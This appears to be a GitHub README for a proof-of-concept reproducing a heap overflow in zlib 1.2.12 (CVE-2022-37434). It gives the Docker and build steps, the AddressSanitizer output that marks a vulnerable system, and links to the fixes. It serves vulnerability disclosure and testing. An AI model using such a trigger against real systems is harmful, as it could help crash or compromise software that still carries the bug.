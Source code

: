 # zlib 1.2.12 heap overflow

## Example to reproduce

Pick an operating system to test. e.g:
```
$ docker run -it ubuntu:bionic
// OR
$ docker run -it ubuntu:jammy
```

```
$ apt update && apt install -y git gcc zlib1g-dev
$ git clone https://github.com/ivd38/zlib_overflow.git
$ cd zlib_overflow
$ gcc -g -o inf1 inf1.c -fsanitize=address -lz
$ ./inf1
```

If NOT vulnerable, it will print:
```
$ ./inf1
wtf: 7160 high water mark
```

If vulnerable, it will print:
```
$ ./inf1
=================================================================
==3405==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x604000000080 at pc 0x7f0f6ae53397 bp 0x7ffff4adcbf0 sp 0x7ffff4adc398
READ of size 4294967294 at 0x604000000080 thread T0
[... see asan.log ... ]
```

## Original notes

Test program is a slightly modified version of test/infcover.c

1. unpack zlib
2. build inf1.c

$ gcc   -g -o  inf1 inf1.c -fsanitize=address -I.  trees.c zutil.c inftrees.c deflate.c inflate.c inffast.c crc32.c adler32.c

Found by Evgeny Legerov of @intevydis


Fixed in zlib develop branch https://github.com/madler/zlib/commit/eff308af425b67093bab25f80f1ae950166bece1

This fix introduced NULL pointer dereference.

Correct fix is here https://cgit.freebsd.org/src/commit/sys/contrib/zlib/inflate.c?id=2969066f73fc67a614144ac09b9f3f5291937fed


https://www.cve.org/CVERecord?id=CVE-2022-37434
